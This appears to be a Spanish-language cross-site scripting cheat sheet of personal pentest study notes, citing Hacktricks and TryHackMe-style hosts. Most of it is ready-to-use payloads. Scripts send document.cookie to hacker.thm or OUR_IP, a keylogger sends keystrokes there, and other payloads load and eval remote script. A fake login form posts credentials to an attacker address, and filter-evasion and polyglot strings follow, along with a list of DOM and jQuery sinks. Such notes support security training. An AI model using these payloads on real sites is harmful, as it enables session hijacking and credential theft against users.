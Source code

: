 ### Hacktricks:

    <img src=x onerror=alert(PAYLOAD)>

Otro

    <details open ontoggle​=content['al'%2B'ert'](1) >

#### steal cookie:

A


    <script>fetch('http://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
B

    document.location='http://OUR_IP/index.php?c='+document.cookie;
C

    new Image().src='http://OUR_IP/index.php?c='+document.cookie;
D

    new Audio().src='http://OUR_IP/index.php?c='+document.cookie;



#### keylogger
        <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>


#### Quebrar un código JS que recibe el imput
        ';alert('THM');//

#### No HTML inject and script clean:
        <sSCRIPTcript> </sSCRIPTcript>

#### Polyglots:

        jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('porota') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('porota')//>\x3e

#### Probar si se conecta a otro servidor:
A

        <script src=http://OUR_IP></script>
B

        '><script src=http://OUR_IP></script>
C

        "><script src=http://OUR_IP></script>
D

        javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
E

        <script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
F

        <script>$.getScript("http://OUR_IP")</script>


#### Fake form

        document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');


#### DOM XSS

Las dom based no hacen transacciones con el back-end, quedan enteramente del lado del cliente. Una buena forma de probarlas es ver si un input que se muestra en la pantalla
no genera una request.

##### armado de payloads:
stored DOM xss:


        <><img src=1 onerror=alert(1)>

window.location = nos permite construir un link para redireccionar a la victima a un sitio vulnerable.
innerHTML = permite agrergar un elemento al DOM, no permite agrergar scripts directamente ni svgs, pero podemos utilizar una etiqueta html para ingresar js como:<img src=1 onerror=alert(document.domain)>
eval()= 

#### DOM Y JQUERY
attr()=permite modificar un elemento del dom. Podríamos aprovecharnos con un codigo como este: javascript:alert(document.domain)

$(): función selectora, nos permite inyectar objetos en el DOM. Podemos explotarlo creando un Iframe 

        <iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">


#### Sinks más comunes para dom xss:
document.write()

document.writeln()

document.domain

element.innerHTML

element.outerHTML

element.insertAdjacentHTML

element.onevent


#### jquery:

add()

after()

append()

animate()

insertAfter()

insertBefore()

before()

html()

prepend()

replaceAll()

replaceWith()

wrap()

wrapInner()

wrapAll()

has()

constructor()

init()

index()

jQuery.parseHTML()

$.parseHTML()








